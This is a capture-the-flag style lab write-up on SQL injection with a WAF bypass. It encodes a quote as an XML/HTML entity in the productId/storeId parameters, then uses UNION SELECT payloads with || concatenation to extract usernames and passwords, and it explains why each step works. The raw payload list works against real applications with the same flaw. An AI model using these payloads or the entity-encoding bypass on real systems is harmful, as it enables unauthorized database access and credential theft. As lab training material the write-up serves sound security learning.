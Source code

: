 # SQL injection with filter bypass via XML encoding

*A clean, step‑by‑step write‑up using my original flow and **raw payloads** (kept as written), with short notes on XML/HTML entities and why the bypass works.*

---

## 🎯 Goal
**Get the administrator password and log in** by bypassing a SQLi filter that inspects XML input.

---

## 🧭 Context
- The endpoint **`/product/stock`** accepts **XML** parameters (e.g., `productId`, `storeId`).  
- A basic WAF/validation layer blocks obvious meta‑characters (returns **403 “Attack detected”** for quotes/backticks).  
- Because the transport is XML, **HTML entity encoding** can help bypass naive filters — the server often **decodes entities** before building SQL.

Reference helper used: <https://mothereff.in/html-entities>

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** get administrator password and log in via SQL injection filter bypass of XML.  
2. **XML ENCODING** usually means HTML entities; I used the site above to encode characters.  
3. It took a while to find the **vulnerable parameter**; I probed everywhere with a character that breaks the query.  
4. At **`/product/stock`** you can see XML entities with `productId` and `storeId`.  
5. Trying to use raw breakers: `'` / `"` / <code>`</code> → **403** response: “Attack detected”.  
6. Since it’s XML I converted the quote to an **HTML entity**: `'` → `&#x27;` → the response shows **“0 units”** (so the filter didn’t fire).  
7. I guessed the SQL shape is numeric, e.g.:  
   `SELECT productId FROM products WHERE productId = 1`  
   If I **escape into a string**, it breaks — so I pivoted to **UNION**. *(see screenshot 2)*  
8. `1 UNION SELECT 1` → shows nothing. Maybe it expects **text** → try `1 UNION SELECT '1'`. *(see screenshot 3)*  
9. Lab says: *“The database contains a `users` table with `username` and `password`.”*  
10. `1 UNION SELECT username FROM users` → **returns usernames**. *(see screenshot 4)*  
11. `1 UNION SELECT username, password FROM users` → **nothing** (only **one** column is returned).  
12. Use **string concatenation** to fit one column:  
    `1 UNION SELECT username || '/' || password FROM users`  
13. **Grab the administrator password** and log in.  
14. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)

- **Entity bypass in XML inputs:**  
  Filters often catch literal `'` / `"` / backticks, but **don’t normalize/resolve entities** before checking. When the backend **parses the XML**, entities like `&#x27;` become **real quotes** again, landing in the SQL layer **after** the filter — hence the bypass.

- **Column count alignment:**  
  The original query returns **one column**, so `UNION SELECT` must also return **one**. When you tried two (`username, password`), it didn’t render. Concatenating into one string (`username || '/' || password`) matches the shape.

- **Concatenation operator:**  
  The `||` operator is valid in **PostgreSQL** and **Oracle**. If the backend were **MySQL**, you’d use `CONCAT(username,'/',password)`; for **SQL Server**, `username + '/' + password`.

- **“0 units” clue:**  
  The benign response with `&#x27;` showed the request flowed through without WAF blocking — a strong hint that **entity‑decoded input** reaches the SQL sink.

> Guardrail: Always have authorization. Avoid sending production PII/creds; stick to lab data or clearly scoped tests.

---

## ⌨️ Raw payloads / inputs I used (kept exactly)

```
'  "  `          → 403 “Attack detected”
&#x27;              → “0 units” (bypass)

1 UNION SELECT 1
1 UNION SELECT '1'
1 UNION SELECT username FROM users
1 UNION SELECT username, password FROM users
1 UNION SELECT username || '/' || password FROM users
```

*(Where needed, place encoded `&#x27;` in the XML value for `productId` / `storeId` to pass the filter, then craft the UNION payload accordingly.)*

---

## 🏁 Result
- Bypassed XML/WAF checks using **HTML entity encoding**, confirmed **single‑column** rendering, concatenated creds via `||`, extracted the **administrator password**, and logged in. **Solved. ✅**

